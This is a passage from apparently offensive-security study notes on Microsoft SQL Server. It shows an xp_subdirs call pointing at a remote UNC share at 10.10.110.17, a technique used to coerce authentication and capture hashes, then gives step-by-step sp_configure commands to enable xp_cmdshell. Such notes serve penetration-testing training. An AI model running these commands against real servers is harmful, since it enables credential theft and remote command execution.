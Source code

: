     ```c
    1> EXEC master..xp_subdirs '[\\10.10.110.17\share\](file://10.10.110.17/share/)'
    2> GO
    ```
4.  **Check who (apart sysadmins) has permissions to run those MSSQL functions with:**

    ```c
    1> Use master;
    2> EXEC sp_helprotect 'xp_dirtree';
    3> EXEC sp_helprotect 'xp_subdirs';
    4> EXEC sp_helprotect 'xp_fileexist';
    5> GO
    ```

#### Enabling `xp_cmdshell`

* **Tool:** \[\[SQLCMD]]
* `xp_cmdshell` is a powerful feature and disabled by default. `xp_cmdshell` can be enabled and disabled by using the Policy-Based Management or by executing `sp_configure`.

1.  **Check if `xp_cmdshell` is enabled:**

    ```c
    1> SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
    2> GO
    ```
2.  **Allow advanced options to be changed:** If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges.

    ```c
    1> EXECUTE sp_configure 'show advanced options', 1
    2> GO
    ```
3.  **Update the currently configured value for advanced options:**

    ```c
    1> RECONFIGURE
    2> GO 
    ```
4.  **To enable `xp_cmdshell`:**

    ```c
    1> EXECUTE sp_configure 'xp_cmdshell', 1
    2> GO 
    ```
5.  **Update the currently configured value for this feature:**

    ```c
    1> RECONFIGURE
    2> GO
    ```
6.  **Verify `xp_cmdshell` is now enabled:**

    ```c
    1> SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
    2> GO
    ```
